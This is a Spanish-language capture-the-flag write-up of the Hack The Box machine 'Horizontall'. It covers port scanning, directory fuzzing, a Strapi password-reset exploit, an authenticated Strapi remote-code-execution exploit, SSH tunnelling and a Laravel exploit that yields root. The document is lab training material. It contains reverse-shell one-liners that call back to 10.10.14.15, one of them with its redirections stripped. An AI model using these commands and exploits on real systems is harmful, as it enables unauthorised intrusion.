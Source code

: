 ```yaml
---
title: 'CTF - Horizontall WriteUp'
date: '2022-02-09'
tags: ["CTF", "Hacking", "VueJS", "Fuzzing", "Rce", "#Import 2022-12-20 21:06"]
draft: false
authors: ['default']
summary: 'En este reto CTF se escanean todos los puertos disponibles con NMAP y se encuentran los puertos 80 y 22 abiertos. Al acceder a una URL, se descubre una SPA de VueJS. Mediante el uso de herramientas de desarrollo, se encuentran archivos Vue que llaman a una API. Se descubre un subdominio interesante y se realiza fuzzing contra él. Se encuentra una ruta de administración de Strapi y se explota una vulnerabilidad para resetear la contraseña de un usuario válido. Se ejecuta un script de RCE y se obtiene una reverse shell. Se escala privilegios en la máquina y se encuentra un puerto oculto en el localhost. Se utiliza un exploit de Laravel para obtener una reverse shell como usuario root. Se obtiene la flag del sistema.'
images: ["/static/images/uploads/ctf-horizontall/Screenshot_1-1.webp", "/static/images/uploads/ctf-horizontall/image.webp", "/static/images/uploads/ctf-horizontall/Screenshot_2-1.webp", "/static/images/uploads/ctf-horizontall/image-3.webp", "/static/images/uploads/ctf-horizontall/image-5.webp", "/static/images/uploads/ctf-horizontall/image-6.webp"]
---
```


![](/static/images/uploads/ctf-horizontall/Screenshot_1-1.webp)

Hago un escaneo de puertos todos los puertos disponibles con NMAP.


```
nmap -p- -sS -T5 --open -vvv 10.10.11.105 -oG allPorts
```
Me devuelve los puertos 80 y 22 como abiertos y abro en un navegador la siguiente url http://10.10.11.105.

![](/static/images/uploads/ctf-horizontall/image.webp)

Percibo que me encuentro ante una SPA hecha en VueJS. En un inicio, el código fuente de la web está oculto puesto que se carga posteriormente cuando el navegador interpreta Javascript. Utilizando el devtools de Firefox, encuentro los archivos Vue que llaman a la API para recuperar la información.

![](/static/images/uploads/ctf-horizontall/Screenshot\_2-1.webp)

El subdominio que aparece reflejado lo introduzco en mi /etc/hosts con el fin de poder resolver dicha dirección en caso de encontrarme con un virtual hosting.


```
❯ cat /etc/hosts
───────┬─────────────────────────────────────────────────────────────────────
       │ File: /etc/hosts
───────┼─────────────────────────────────────────────────────────────────────
   1   │ # Host addresses
   2   │ 127.0.0.1  localhost
   3   │ 127.0.1.1  iocio-virtualbox
   4   │ ::1        localhost ip6-localhost ip6-loopback
   5   │ ff02::1    ip6-allnodes
   6   │ ff02::2    ip6-allrouters
   7   │ 
   8   │ 10.10.11.105    horizontall.htb www.horizontall.htb api-prod.horizontall.htb
```
Realizo fuzzing contra el dominio api-prod.horizontall.htb.


```
 wfuzz -c --hc=404 -t 200 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt "http://api-prod.horizontall.htb/FUZZ"
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************
Target: http://api-prod.horizontall.htb/FUZZ
Total requests: 141708
=====================================================================
ID           Response   Lines    Word       Chars       Payload               
=====================================================================    
000000014:   200        19 L     33 W       413 Ch      "http://api-prod.horizontall.htb/"
000000350:   200        0 L      21 W       507 Ch      "reviews"             
000001895:   200        16 L     101 W      854 Ch      "admin"               
```
Encuentro una ruta interesante en /admin. En ella, aparece un formulario de login de una plataforma denominada Strapi.

![](/static/images/uploads/ctf-horizontall/image-3.webp)

Buscando un poco encuentro la siguiente [vulnerabilidad](https://www.exploit-db.com/exploits/50237) que nos permite resetear la contraseña del usuario. Analizando el script, veo que accediendo a la ruta http://api-prod.horizontall.htb/admin/strapiVersion puedo ver la versión del CMS que está detrás. Eso me sirve para confirmar que la versión *3.0.0-beta.17.4* es vulnerable. Aun así, necesito un usuario válido para poder emplear el script.

Si rellenamos el formulario de "olvidó su contraseña", observamos que hay una fuga de información que no debería existir. **Este tipo de formularios no deberían dar pistas sobre que usuarios existen o cuáles no.**

![](/static/images/uploads/ctf-horizontall/image-5.webp)

Probamos con admin@horizontall.htb y vemos que no pone nada, por lo que asumimos que ese usuario **SI** existe.

Añadimos en el script los campos acordes a nuestro entorno y ejecutamos.


```
❯ python3 password.py
[*] strapi version: 3.0.0-beta.17.4
[*] Password reset for user: admin@horizontall.htb
[*] Setting new password
[+] New password 'admin' set for user admin@horizontall.htb
```
De esta forma, hemos modificado la contraseña y podemos ejecutar otro tipo de vulnerabilidades que requieren de autenticación previa. Podemos encontrar una vulnerabilidad de ese tipo [aquí](https://www.exploit-db.com/exploits/50239). Nos ponemos en escucha en el puerto 443 con netcat. 


```
nc -lvp 443
```
Modificamos el script para adaptarlo a nuestras necesidades y ejecutamos.


```
python3 rce.py http://api-prod.horizontall.htb
[+] Checking Strapi CMS Version running
[+] Seems like the exploit will work!!!
[+] Executing exploit

$ bash -c 'bash -i >& /dev/tcp/10.10.14.15/443 0>&1'
```
De esta manera, en la consola de netcat, recibimos una reverse shell con la que podemos empezar a escalar privilegios.


```
strapi@horizontall:~$ whoami
strapi
strapi@horizontall:~$ id
uid=1001(strapi) gid=1001(strapi) groups=1001(strapi)
```
Verifico que puertos hay abiertos en el localhost  de la máquina por si hubiese algún servicio oculto ejecutandose.


```
strapi@horizontall:~$ netstat -tulpn
Proto Recv-Q Send-Q Local Address           Foreign Address         State    
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN  
...
```
Con un curl, vemos que es una CMS de Laravel. Creamos una clave ssh para poder conectarnos a la máquina estableciendo un túnel entre mi máquina y la máquina vulnerable con tal de poder ver ese puerto oculto en su localhost.


```
ssh -L 80:127.0.0.1:8000 -i strapi_id_rsa strapi@10.10.11.105
```
![](/static/images/uploads/ctf-horizontall/image-6.webp)

Navegando un poco, encontramos un [exploit](https://www.exploit-db.com/exploits/49424) de la versión de Laravel que está siendo ejecutada en la máquina. Comprobamos que funciona con un 'whoami'.


```
python3 laravel.py http://127.0.0.1:80 /home/developer/myproject/storage/logs/laravel.log 'whoami'
Exploit...
root
```
Una vez verificado, nos ponemos en escucha con netcat.


```
nc -lvp 443
```
Y nos mandamos una reverse shell con netcat versión antigua (la que tiene la máquina instalada).


```
python3 laravel.py http://127.0.0.1:80 /home/developer/myproject/storage/logs/laravel.log 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2&1|nc 10.10.14.15 443 /tmp/f'
```
Recibimos la shell en nuestro equipo y terminamos con esta máquina.


```
❯ nc -lvp 443
listening on [any] 443 ...
connect to [10.10.14.15] from horizontall.htb [10.10.11.105] 38560
# whoami
root
# cat /root/root.txt
7360xxxxxxxxxxxxxxxxxxx
```
